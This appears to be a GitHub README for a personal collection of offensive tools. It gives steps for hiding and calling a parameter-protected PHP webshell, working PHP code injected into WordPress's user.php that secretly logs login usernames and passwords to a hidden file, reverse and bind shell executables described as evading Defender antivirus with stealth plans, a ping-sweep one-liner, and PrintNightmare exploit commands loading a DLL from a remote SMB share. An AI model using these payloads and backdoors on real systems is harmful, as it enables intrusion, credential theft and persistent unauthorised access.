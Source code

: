 # JustRepository

Testing project

## Getting Started

These are repository for tools and code I modify and compile for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh
Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe

* **cube0x0** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
```
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```
